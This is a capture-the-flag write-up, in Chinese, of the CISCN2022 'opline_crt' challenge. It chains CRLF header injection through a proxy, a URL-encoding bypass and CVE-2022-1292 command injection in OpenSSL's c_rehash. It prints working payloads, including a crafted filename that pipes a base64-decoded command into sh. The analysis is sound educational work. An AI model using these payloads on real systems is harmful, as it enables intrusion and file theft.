 # [CISCN2022] opline_crt




# 0x01 前期准备

## 源码

题目源码用于本地的调试，有所改动，考虑篇幅，只展示重要逻辑代码

app.py

```python
@app.route('/getcrt', methods=['GET', 'POST'])
def upload():
    Country = request.form.get("Country", "CN")
    Province = request.form.get("Province", "a")
    City = request.form.get("City", "a")
    OrganizationalName = request.form.get("OrganizationalName", "a")
    CommonName = request.form.get("CommonName", "a")
    EmailAddress = request.form.get("EmailAddress", "a")
    return get_crt(Country, Province, City, OrganizationalName, CommonName, EmailAddress)


@app.route('/createlink', methods=['GET'])
def info():
    json_data = {"info": os.popen("c_rehash static/crt/ && ls static/crt/").read()}
    return json.dumps(json_data)


@app.route('/proxy', methods=['GET'])
def proxy():
    uri = request.form.get("uri", "/")
    client = socket.socket()
    client.connect(('localhost', 8887))
    msg = f'''GET {uri} HTTP/1.1
Host: test_api_host
User-Agent: Guest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

'''
    client.send(msg.encode())
    data = client.recv(2048)
    client.close()
    return data.decode()

app.run(host="0.0.0.0", port=8888)

```

main.go

```go
package main

import (
	"github.com/gin-gonic/gin"
	"os"
	"strings"
)

func admin(c *gin.Context) {
	staticPath := "../static/crt/"
	oldname := c.DefaultQuery("oldname", "")
	newname := c.DefaultQuery("newname", "")
	if oldname == "" || newname == "" || strings.Contains(oldname, "..") || strings.Contains(newname, "..") {
		c.String(500, "error")
		return
	}
	if c.Request.URL.RawPath != "" && c.Request.Host == "admin" {
		err := os.Rename(staticPath+oldname, staticPath+newname)
		if err != nil {
			return
		}
		c.String(200, newname)
		return
	}
	c.String(200, "no")
}

func index(c *gin.Context) {
	c.String(200, "hello world")
}

func main() {
	router := gin.Default()
	router.GET("/", index)
	router.GET("/admin/rename", admin)

	if err := router.Run(":8887"); err != nil {
		panic(err)
	}
}

```

## 服务启动

因为flask里直接执行了命令，所以我们得把这个文件放到py文件的同级目录

![image-20220531011308669](https://tuchuang.huamang.xyz/img/image-20220531011308669.png)

接着启动服务，分别执行.

```
python3 app.py
go run main.go
```

![image-20220531020438519](https://tuchuang.huamang.xyz/img/image-20220531020438519.png)

# 0x02 题目逻辑

这里题目的逻辑大致是这样：

首先通过getcrt路由生成crt文件，然后利用go里的admin/rename去修改文件名，最后利用createlink里的c_rehash执行命令

![image-20220531020556035](https://tuchuang.huamang.xyz/img/image-20220531020556035.png)

可以看到proxy里面，是拼接了一个http包的

![image-20220531020721792](https://tuchuang.huamang.xyz/img/image-20220531020721792.png)

这里不免想到CRLF，进了go里面，那么有这样的条件需要满足

```go
	if c.Request.URL.RawPath != "" && c.Request.Host == "admin" {
		err := os.Rename(staticPath+oldname, staticPath+newname)
		if err != nil {
			return
		}
		c.String(200, newname)
		return
	}
	c.String(200, "no")
```

## c.Request.URL.RawPath的绕过

首先是`c.Request.URL.RawPath`，这个的绕过方法是url编码，我们用`%252f`代替/来绕过这个

接着是host得是admin，这里我们可以用CRLF来实现

## c_rehash的RCE:CVE-2022-1292

这里是给了c_rehash的源码的，先搜了一下这个cve，找到官方的[修复方案](https://git.openssl.org/gitweb/?p=openssl.git;a=commitdiff;h=1ad73b4d27bd8c1b369a3cd453681d3a4f1bb9b2)，发现是在这里进行了修复

![image-20220531022605244](https://tuchuang.huamang.xyz/img/image-20220531022605244.png)



那么我们就可以对这里分析一下，这里可以从fname这里进行代码注入，类似于这样

```
1.crt"||id>1.txt||echo"
```

![image-20220531030310940](https://tuchuang.huamang.xyz/img/image-20220531030310940.png)



那么思路就清晰了

## 最后逻辑

我们先生成一个crt记录下文件名，然后通过proxy，到go的/admin/rename下，通过CRLF绕过host的判断，把文件名修改成代码注入的样子，最后通过createlink执行c_rehash进行命令执行



但是最后有一个问题，就是这里fname还是有过滤的，是不能出现斜杠，那么我们就没有办法读取到其他目录下的文件了，这里的绕过逻辑是通过**base64**进行消敏

`$fname =~ s/\"/\\\"/g;`

payload：

```
uri=/admin%252frename?oldname=8c3bcef7-62f5-476c-9c9d-9dc7054a5533.crt%26newname=1.crt"||echo${IFS}"Y2F0IC9mbGFnPnpob25nM2Nj"|base64${IFS}-d|sh${IFS}-i"%20HTTP/1.1%0d%0aHost:%20admin%0d%0a%0d%0aGET%20/
```

成功修改文件名

![image-20220531024730936](https://tuchuang.huamang.xyz/img/image-20220531024730936.png)



![image-20220531024543189](https://tuchuang.huamang.xyz/img/image-20220531024543189.png)



然后再到createlink执行命令

![image-20220531024111917](https://tuchuang.huamang.xyz/img/image-20220531024111917.png)

访问static/crt/1.txt，成功读取到/etc/passwd

![image-20220531024152898](https://tuchuang.huamang.xyz/img/image-20220531024152898.png)



## tricks

这里绕过Host判断，可以不用CRLF来绕过，这里可以用http://admin/admin/rename来绕过



![image-20220531025010258](https://tuchuang.huamang.xyz/img/image-20220531025010258.png)

可以看到是可以成功绕过的

